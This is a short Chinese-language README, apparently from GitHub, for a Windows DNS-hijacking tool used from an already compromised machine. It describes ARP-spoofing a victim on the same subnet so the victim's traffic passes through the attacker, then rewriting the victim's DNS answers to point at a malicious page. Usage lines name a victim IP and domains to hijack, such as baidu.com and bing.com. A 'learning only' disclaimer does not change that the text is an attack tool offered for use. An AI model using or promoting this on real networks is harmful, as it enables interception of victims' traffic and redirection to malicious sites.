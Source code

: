 ## 免责声明

涉及到的所有技术仅用来学习交流，严禁用于非法用途。否则产生的一切后果自行承担。

## 介绍

实现windows环境下的dns劫持需求，全程操作都是在被控机器A上完成。

假设机器A(被控)和机器B在一个C段：

1、在A上对B做arp欺骗，使B的所有流量到A。

2、修改B流量中的dns的解析规则，解析到恶意页面。

arp欺骗：

参考：https://github.com/alandau/arpspoof

dns劫持：

```
dns_hijacking.exe "网卡描述(ipconfig /all)" 受害者ip "要劫持的根域名"

dns_hijacking.exe "Intel(R) PRO/1000 MT Network Connection" 192.168.213.188 "baidu.com,2345.cc,2345.com,bing.com"
```





